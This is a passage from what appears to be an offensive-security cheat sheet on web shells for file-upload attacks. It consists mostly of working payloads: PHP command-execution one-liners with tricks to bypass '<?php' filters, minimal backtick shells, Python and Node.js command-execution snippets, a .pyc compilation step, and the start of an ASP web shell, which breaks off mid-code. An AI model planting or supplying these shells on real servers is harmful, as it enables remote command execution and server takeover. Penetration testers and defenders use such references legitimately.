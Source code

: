 Bypass `<?php` filter with alternative prefixes:

<pre class="language-php"><code class="lang-php"><strong>&#x3C;?= system($_GET["cmd"]) ?>  // Universal (echo's result automatically)
</strong>
<strong>&#x3C;?system($_GET["cmd"])?>  // Supported on some servers
</strong>
<strong>&#x3C;script language="php">system($_GET["cmd"])&#x3C;/script>  // PHP &#x3C; 7
</strong></code></pre>

<pre class="language-php" data-title="Shortest (14-15 bytes)"><code class="lang-php">// Execute with /shell.php?0=id
<strong>&#x3C;?=`$_GET[0]`;
</strong>
<strong>&#x3C;?=`$_GET[0]`?>ANYTHING
</strong></code></pre>

#### Python (`.py`, `.pyc`)

{% code title="shell.py" %}
```python
__import__("os").system("id > /tmp/pwned")
```
{% endcode %}

You can also create a compiled `.pyc` file which can be executed just like any other source code file:

```bash
python3 -c '__import__("py_compile").compile("shell.py", "shell.pyc")'
```

#### JavaScript (`.js`, `.mjs`)

{% code title="shell.js" %}
```javascript
require("child_process").execSync("id > /tmp/pwned").toString()
```
{% endcode %}

#### C# ASP.NET (`.asp`, `.aspx`) - dirty

{% code title="shell.asp" %}
```aspnet
<!-- Source: https://github.com/tennc/webshell/blob/master/asp/webshell.asp -->
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
```